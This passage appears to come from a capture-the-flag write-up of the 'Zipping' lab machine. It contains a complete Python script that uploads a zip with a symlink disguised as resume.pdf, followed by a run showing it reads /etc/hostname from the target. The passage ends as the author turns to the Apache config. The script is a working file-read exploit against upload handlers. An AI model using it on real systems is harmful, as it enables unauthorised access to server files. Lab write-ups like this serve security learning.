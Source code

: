 #### Script

I’d like to make a script to make reading files from Zipping easier. I’ll walk
through that in [this video](https://www.youtube.com/watch?v=NPlkZVm-C7M):

The final code is:

    
    
    #!/usr/bin/env python3
    import io
    import re
    import sys
    import zipfile
    import requests
    from datetime import datetime
    
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <host> <target file path>")
        sys.exit()
    
    host = sys.argv[1]
    filepath = sys.argv[2]
    
    zip_buffer = io.BytesIO()
    
    with zipfile.ZipFile(zip_buffer, "w") as zip_file:
        zipInfo = zipfile.ZipInfo('resume.pdf')
        zipInfo.create_system = 3
        zipInfo.external_attr |= 0xA0000000
        zipInfo.date_time = datetime.now().timetuple()[:6]
        zip_file.writestr(zipInfo, filepath)
    
    files = ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})
    resp = requests.post(f'http://{host}/upload.php',
                  files={"zipFile": ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})},
                  data={"submit": ""}
                  )
    
    (url, ) = re.findall(r'path:</p><a href="(.*)">\1</a>', resp.text)
    
    resp = requests.get(f'http://{host}/{url}')
    sys.stdout.buffer.write(resp.content)
    

And it works (for both text and binaries):

    
    
    oxdf@hacky$ python readfile.py 10.10.11.229 /etc/hostname
    zipping
    

### Page Source

#### Find

I’m able to get the Apache config file for the site in the default location,
`/etc/apache2/sites-enabled/000-default.conf`. Removing commented lines, it
looks very standard:
